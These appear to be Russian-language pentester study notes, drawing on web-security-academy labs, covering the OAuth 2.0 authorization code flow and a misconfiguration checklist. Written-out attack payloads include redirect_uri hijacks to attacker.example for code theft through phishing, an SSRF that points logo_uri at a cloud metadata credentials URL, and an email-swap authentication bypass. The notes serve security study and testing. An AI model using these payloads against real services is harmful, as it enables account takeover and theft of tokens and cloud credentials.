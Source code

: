 Authorization code grant type
```bash
# Protocol Flow

+--------+                               +---------------+
|        |--(A)- Authorization Request ->|   Resource    |
|        |                               |     Owner     |
|        |<-(B)-Authorization code Grant-|     /auth     |
|        |                               +---------------+
|        |
|        |                               +---------------+
|        |--(C)-- Access token request ->| Authorization |
| Client |                               |     Server    |
|        |<-(D)----- Access Token -------|     /token    |
|        |                               +---------------+
|        |
|        |                               +---------------+
|        |--(E)----- Access Token ------>|    Resource   |
|        |                               |     Server    |
|        |<-(F)--- Protected Resource ---|               |
+--------+                               +---------------+

# (A) Authorization Request запрос доступа
GET /authorization?
    client_id=12345&        # публичная информация guid клиента
    redirect_uri=https://client-app.com/callback& # должно проверять это поле по списку допустимых URL иначе open redirect attack
    response_type=code&     # если code > OAuth flow; если token OAuth authentication либо это Implicit flow
    scope=openid%20profile& # запрашиваемый скоуп
    state=ae13d489bd00e3c24 # или nonce - обязательный параметр для защиты от CSRF
    + со стороны бэка может быть добавлено поле client_secret
Host: oauth-authorization-server.com # название сервера OAuth 

# (B) Authorization code Grant
GET /callback?code=a1b2c3d4e5f6g7h8& # уникальный код для запроса токена
    state=ae13d489bd00e3c24 # обязательный параметр для защиты от CSRF для подтверждения факта что это оригинальный запрос
Host: client-app.com

# В случае implicit flow user agent сразу получит токен GET /callback#access_token=z0y9x8w7v6u5&token_type=Bearer&expires_in=5000&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1

# (C) Access token request
POST /token HTTP/1.1
Host: oauth-authorization-server.com
…
    client_id=12345&
    client_secret=SECRET& # это поле не должно быть у пользователя а формироваться бэком
    redirect_uri=https://client-app.com/callback& # должно проверять это поле по списку допустимых URL иначе open redirect attack
    grant_type=authorization_code&
    code=a1b2c3d4e5f6g7h8 # уникальный код для запроса токена
```

Проверка на мисконфигурации
1. Проверить доступность
/.well-known/oauth-authorization-server
/.well-known/openid-configuration

2. Ошибки на клиентской части
- не проверяется TLS сертификат сервера (получение токена от недоверенного сервера)
- передача токена по незащищенному соединению (HTTP)
- не проверяется валидность токена (client_id, подпись , TTL, "aud")
- в запросе /auth и /token нет state или иной защиты от CSRF
- используется implicit flow
- набор токенов access, refresh хранятся в браузере без защиты
- client secret доступен пользователю, или хранится небезопасно
- рекомендуется использовать flow PKCE RFC 7636

3. Ошибки на сервере аутентификации
- не проверяется redirect_uri по белому списку для данной типа клиента, либо используются * в URL (https://*.somesite.example/*)
- использовать конфиденциальный клиент
- атака authorization code injection attack
- выставляются большие значения для кеша в браузере

4. Ошибки на сервере клиента (resource server)
- проверка токенов по клейму aud (что к ним пришел access token от их клиента, а не используется чужой access token)

### Best Current Practice for OAuth 2.0 Security (RFC 9700)
https://datatracker.ietf.org/doc/rfc9700/

1. Open redirection attack
Если на сервере настроены такие правила валидации https://*.somesite.example/*. Чтобы  https://app1.somesite.example/redirect смог работать. Но атакующий может заменить адрес на
https://attacker.example/.somesite.example/
> найти запрос авторизации /auth?client_id=[...] и отправить в Repeater
> подменить значение redirect_uri:
    A. подменить значение redirect_uri на свой домен с подстановкой домена жертвы как своего URI
    redirect_uri=https://attacker.example/.somesite.example/
    B. parameter pollution
    redirect_uri=https://somesite.example/&redirect_uri=https://attacker.example/.somesite.example/
    C. @
    redirect_uri=https://somesite.example@https://attacker.example/.somesite.example/
    D.  open redirect. На сайте нужно найти эндпоинт осущесвляющий редирект на другую страницу https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1 подменить значение redirect_uri     
    redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit

> отправить жертве подготовленную ссылку (phishing)

2. Authorization Code Injection
Если злоумышленник получил authorization code, то он может раньше клиента обратиться за получением access токена
Защита использовать PKCE или Nonce для OIDC

3. Access Token Injection
Если злоумышленник получил access token 
Защита - проверка at_hash claim

4. PKCE Downgrade Attack

5. SSRF via client registration
Проверить https[:]//oauth-ID.oauth-server.net/.well-known/openid-configuration
> найти registration_endpoint /reg на сервере авторизации
> создать и зарегистрировать своего клиента. 
> проверить гипотезу что при создании клиента есть некий URL от защищенного ресурса. Например "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/" 
    POST /reg HTTP/1.1
    Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
    Content-Type: application/json

    {
        "redirect_uris" : [
            "https://example.com"
        ],
        "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
    }
> Сделать запрос к защищенной странице GET /client/{CLIENT_ID}/logo HTTP/2 на client id только что созданного клиента, который дасть доступ к закрытой информации

6. Authentication bypass via OAuth implicit flow
> Модифицировать запрос POST /authenticate 
{"email":"wiener@hotdog.com","username":"wiener","token":"X009bmC5Z8m9JPKw_9Ow1-V_r0UIOnVmCFbOkt4QIA7"}
 На POST /authenticate 
{"email":"carlos@carlos-montoya.net","username":"wiener","token":"X009bmC5Z8m9JPKw_9Ow1-V_r0UIOnVmCFbOkt4QIA7"}

7. CSRF
> если нет state, nonce, PKCE
> если есть state, nonce
убрать, заменить на другое значение и проверить
> если есть PKCE